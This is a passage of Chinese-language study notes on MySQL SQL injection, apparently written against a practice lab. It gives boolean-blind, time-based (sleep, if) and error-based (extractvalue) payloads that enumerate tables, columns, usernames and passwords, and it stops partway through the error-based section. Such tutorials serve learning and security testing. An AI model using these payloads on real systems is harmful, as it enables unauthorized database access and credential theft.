 ```
爆表
?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' --+
修改limit x,1和left中的位数限定数字，爆破到第一张表为referer，终于在第三张表爆破到user表，名为users。
爆列名
?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' --+
爆字段
?id=1' and left((select password from users order by id limit 0,1),1)='d' --+
用户名
?id=1' and left((select username from users order by id limit 0,1),1)='d' --+
```



##### 基于时间的盲注

即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

```
时间盲注的关键是通过返回内容的响应时间差异进行条件判断 用于时间盲注的函数：
sleep(N)：可以让语句运行N秒中`；
benchmark(count,exprssion)：重复coutn次执行表达式exprssion；
if(expr1,expr2,expr3)：如果expr1是真的话，返回值为expr2，否则返回值为expr3；
case when expr1 then expr2 else expr3 end：用法与上面一致。

步骤
枚举当前数据库名
  id =1' and sleep(3) and ascii(substr(database(),m,1))>n --+
枚举当前数据库的表名
  id =1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit a,1),m,1))>n and sleep(3) --+
或者利用if函数
 id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit a,1),m,1)) >n,sleep(5),1) --+
枚举当前数据库表的字段名
 id =1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit a,1),m,1))>n and sleep(3) --+
枚举每个字段对应的数据项内容
id =1' and ascii(substr((select username from security.users limit a,1),m,1))>n and sleep(3) --+
```



##### 基于报错注入（不存在回显）

即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

1. 单引号

2. 双引号

3. 基于数字型注入

```
原理就是有些特殊的函数会在报错信息中返回参数的值。典型的几个特殊函数有
exp(),extractvalue(),updatexml,rand()+group()+count().

extractvlaue()
函数语法：extractvalue(XML_document,XPath_string);
利用原理：如果XPath_string的格式不符合xpath格式就会产生错误，返回参数的信息，而我们通常利用concat()将~与我们注入的语句拼接在一起从而产生错误。
爆库名
1' and extractvalue(1,concat('~',(select group_concat(schema_name) from information_schema.schemata)))--+
爆表名
1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='库名')))--+
爆字段名
```